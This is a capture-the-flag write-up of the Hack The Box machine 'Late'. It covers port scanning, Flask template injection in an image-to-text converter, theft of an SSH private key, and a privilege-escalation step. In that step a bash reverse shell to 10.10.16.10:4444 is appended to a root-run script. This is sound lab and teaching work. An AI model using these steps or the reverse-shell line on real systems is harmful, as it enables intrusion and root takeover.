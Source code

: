 ```yaml
---
title: '[HTB] Late'
date: 2022-05-29 8:45 PM
categories: [Machines, HTB]
tags: [easy, linux, machines, flask]
permalink: /:categories/:title
img_path: /assets/img/machines/htb/late
---
```


![banner](banner.png) 

## Enumeration

### NMAP

```console
❯ nmap -sV --open 10.10.11.156
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-04 11:19 CEST
Nmap scan report for 10.10.11.156
Host is up (0.084s latency).
Not shown: 961 closed tcp ports (conn-refused), 37 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.6 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.54 seconds
```
> We see that port 80 and 22 are open, so we have to go to the website.

### Domains

When we enter the website and look at the source code find this:

![source](source.png) 
_Source code website_


```console
❯ echo "10.10.11.156 late.htb images.late.htb" | sudo tee -a /etc/hosts
```
If we take a look at the domain we will see that there is nothing interesting.

![domain](domain.png) 
_Domain website_

On the subdomain we have an image to text conversor. This website uses Flask, after doing some [research](https://medium.com/@nyomanpradipta120/ssti-in-flask-jinja2-20b068fdaeee) I know what I need to do.

![subdomain](subdomain.png) 
_Subdomain website_

## Foothold

### Flask injection 

To begin with I'm going to test if this vulnerability works. Using {{ config }} list internal flask configurations, we will give it a try.

![img1](img1.png)
_First image_

After uploading the image we download a txt file with the result. This image gives us the following result, which confirms that it is vulnerable to Flask injection.

![result1](result1.png)
_First result_

Following the instructions from the website that explained the Flask injection, we can do RCE.

![img2](img2.png)
_Second image_

Seeing the file `/etc/passwd`{: .filepath} we can figure out that the username to later start an ssh session with this.

![result2](result2.png)
_Second result_

Now we just extract the OpenSSH private key and we can login. 

![img3](img3.png)
_Final image_

Here is the id_rsa file. 

![result3](result3.png)
_Final result_

### SSH 

```console
❯ ssh -i id_rsa user@late.htb
user@late:~$ id
uid=1000(user) gid=1000(user) groups=1000(user)
user@late:~$ 
```

### Privilege Escalation

If we use linpeas, we can see that in `/usr/local/sbin`{: .filepath} we have a high PE vector.

![linpeas](linpeas.png) 
_linpeas output_

If we go to the directory, there is a script with execute permissions.

Well, they make it easy for us. We introduce a reverse shell in the script and then ssh to localhost to trigger the script, since it is a script that alerts of ssh logins.

```console
user@late:/usr/local/sbin$ ls -l
total 4
-rwxr-xr-x 1 user user 433 Jun  4 09:46 ssh-alert.sh
user@late:/usr/local/sbin$ echo 'bash -i >& /dev/tcp/10.10.16.10/4444 0>&1' >> ssh-alert.sh ; ssh localhost
```

While the netcat is active and when we have used the previous command we will already be inside the root user.

```console
❯ nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.16.10] from (UNKNOWN) [10.10.11.156] 60668
bash: cannot set terminal process group (27514): Inappropriate ioctl for device
bash: no job control in this shell
root@late:/# id
id
uid=0(root) gid=0(root) groups=0(root)
```

## Conclusion

This machine itself is not difficult but Flask injection makes it  a bit difficult. I had to test the injection with many formats, many times, since the app didn't read it well. Other than that, it is an easy machine.

### Techniques and Tools

1. nmap 
2. linpeas
3. Flask injection 
4. RCE (Remote Code Execution)
5. PE (Privilege Escalation)
